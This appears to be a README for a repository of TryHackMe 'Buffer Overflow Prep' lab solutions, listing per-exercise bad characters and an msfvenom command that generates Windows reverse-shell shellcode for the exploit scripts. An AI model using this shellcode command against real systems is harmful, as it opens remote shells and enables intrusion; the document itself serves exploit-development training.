 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final POC 

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
**Other Overflows will be added as I do them**

